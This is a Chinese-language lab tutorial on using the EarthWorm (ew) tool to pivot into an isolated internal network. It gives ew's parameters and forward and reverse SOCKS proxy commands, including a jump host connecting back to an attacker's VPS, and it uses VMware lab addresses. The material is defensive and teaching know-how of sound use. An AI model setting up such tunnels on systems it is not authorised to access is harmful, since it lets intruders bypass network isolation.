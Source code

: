 ## ew内网穿透linux

### 环境配置
vps：kali 192.168.6.131
出外网的跳板机：ubuntu01 192.168.6.141；192.168.50.129
不出外网只能与跳板机通讯的内网主机：ubuntu02 192.168.50.128

tips：对于内外网隔离采用了经典的双网卡设置，50网段为vmware的仅主机模式C段，只有同段能访问。

### ew使用方式
ew是一个经典的老工具，可以实现代理和转发，功能强，也很容易被杀。

#### 命令参数
-l  指定要监听的本地端口
-d 指定要反弹到的机器 ip
-e 指定要反弹到的机器端口
-f 指定要主动连接的机器 ip
-g 指定要主动连接的机器端口
-t 指定超时时长,默认为 1000

#### 代理模式
1. 正向代理
```bash
$ ./ew_for_linux64 -s ssocksd -l 1080
```
正向代理直接在跳板机运行，对于攻击者来说，这时的跳板机和SSR的服务器没太大区别。
攻击者使用SSR等代理工具就可以访问内网。

2. 反向代理
公网vps执行
```bash
$ ./ew_for_linux64 -s rcsocks -l 1080 -e 8888 
```


跳板机执行
```bash
$ ./ew_for_linux64 -s rssocks -d vpsip -e 8888 
```

攻击者主机使用vps做ss代理即可访问内网。

### 实战
1. 在ubuntu01上运行`./ew_for_linux64 -s rssocks -d 192.168.6.131 -e 8888 `
![ubunturcsocks](.\ubunturcsocks.png)
2. 在kali上运行`./ew_for_linux64 -s rcsocks -l 1080 -e 8888`
![kalircsocks](.\kalircsocks.png)
3. 在物理机运行sockscaps，设置代理为192.168.6.131:1080
![sockscap](.\sockscap.png)
4. 物理机运行chrome，成功访问ubuntu02主机上的web服务

![穿透成功](.\穿透成功.png)

### 扩展
对于最后一步的配置ss代理，其实在kali上使用工具proxychains就可以完成。

![proxychainsconf](.\proxychainsconf.png)

![proxychainsresult](.\proxychainsresult.png)

